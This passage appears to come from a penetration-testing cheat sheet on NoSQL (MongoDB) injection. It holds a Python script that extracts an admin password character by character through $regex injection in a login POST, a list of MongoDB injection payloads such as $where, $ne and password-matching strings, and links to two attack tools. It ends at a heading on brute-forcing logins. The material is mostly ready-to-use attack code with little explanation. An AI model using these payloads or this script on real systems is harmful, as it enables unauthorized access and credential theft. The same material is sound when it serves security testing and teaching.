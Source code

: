 ```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
            r = requests.post(u, data = {'ids': payload}, verify = False)
            if 'OK' in r.text:
                print("Found one more char : %s" % (password+c))
                password += c
```

## MongoDB Payloads

```
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
```

## Tools

* [https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration)
* [https://github.com/C4l1b4n/NoSQL-Attack-Suite](https://github.com/C4l1b4n/NoSQL-Attack-Suite)

### Brute-force login usernames and passwords from POST login
